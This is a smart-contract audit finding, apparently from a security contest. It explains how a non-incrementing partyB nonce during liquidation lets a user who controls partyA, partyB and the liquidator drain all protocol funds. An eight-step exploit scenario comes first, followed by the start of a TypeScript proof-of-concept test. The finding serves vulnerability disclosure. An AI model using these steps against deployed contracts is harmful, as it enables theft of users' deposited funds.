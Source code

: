 The scenario to exploit this bug is as following:

1. User has to control partyA, partyB and liquidator.
2. Open 2 large opposite positions between partyA and partyB such that one of them is in a high loss and the other in the same/similar profit (easy to do via  openPrice which is far away from current market price, since both partyA and partyB are controlled by the same user).
3. Make partyA liquidatable (many ways to do this: for example, opposite positions can have slightly different size with minimal locked balances, so that when the price moves, this disparency can make partyA liquidatable)
4. Call `liquidatePartyA` and `setSymbolsPrice` (there is no bad debt, because 1 position is in a big loss, the other position in a big profit, but their sum is in a small loss, which is covered by allocatd balance)
5. Sign `singleUpnlSig` for partyB at this time (partyB is in a small profit)
6. User-controlled liquidator calls `liquidatePositionsPartyA` with id of only the position which is in a loss for partyA, profit for partyB. This call increases partyB allocated balance by a very high profit of the position. This action doesn't change partyB's nonce, so previous partyB signature is still valid (this is the bug reported here)
7. At this time partyB has large inflated allocatedBalance and the same big loss, however signature for when partyB was in a small profit is still valid, because party B nonce is the same (position liquidation didn't change it). Use that older signature to sign `deallocateForPartyB`, deallocating inflated balance (which can easily be higher than total protocol deposited funds).
8. Withdraw deallocated balance for partyB. At this point all protocol funds are stolen.

## Impact

All protocol funds can be stolen if a user can control partyA, partyB and liquidator. Since partyB and liquidator roles are supposed to be easy to get, this means that most users are able to easily steal all protocol funds.

There might also be future functions which might ignore liquidation status and can be exploited due to nonce being the same after parties state change during liquidation.

## Code Snippet

Add this to any test, for example to `ClosePosition.behavior.ts`.

```ts
import { getDummyPriceSig, getDummySingleUpnlAndPriceSig, getDummyQuotesPriceSig, getDummySingleUpnlSig } from "./utils/SignatureUtils";

it("Steal all funds due to partyB nonce not increasing during the liquidation", async function () {
  const context: RunContext = this.context;

  this.protocol_allocated = decimal(1000);

  this.user_allocated = decimal(590);
  this.hedger_allocated = decimal(420);

  // some unsuspecting user deposits 1000 into protocol (but doesn't allocate it)
  this.user2 = new User(this.context, this.context.signers.user);
  await this.user2.setup();
  await this.user2.setBalances(this.protocol_allocated, this.protocol_allocated, 0);

  // exploiter user controls partyA, partyB and liquidator
  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

```